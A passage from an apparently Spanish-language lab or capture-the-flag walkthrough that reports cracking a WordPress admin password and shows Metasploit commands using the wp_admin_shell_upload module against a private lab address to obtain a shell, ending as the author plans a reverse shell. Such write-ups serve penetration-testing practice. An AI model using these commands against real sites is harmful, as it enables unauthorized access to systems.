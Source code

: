 ![wpscan_admin](img/wpscan_admin.png)
![password_admin](img/password_admin.png)

Hemos obtenido la password del usuario admin: spongebob

### Uso de Metasploit para obtener shell

Aprovechando que tenemos forma de iniciar sesión en wordpress, usaremos metasploit para obtener una shell

```bash
use exploit/unix/webapp/wp_admin_shell_upload/
set USERNAME admin
set PASSWORD spongebob
set targeturi /wp1
set rhosts 10.0.2.32
exploit
```
![metasploit1](img/metasploit1.png)
![metasploit2](img/metasploit2.png)
![metasploit3](img/metasploit3.png)

Hemos obtenido una sesión, pero de esta forma será difícil manejar comando, así que generaremos una revershell a nuestra terminal fuera de metasploit
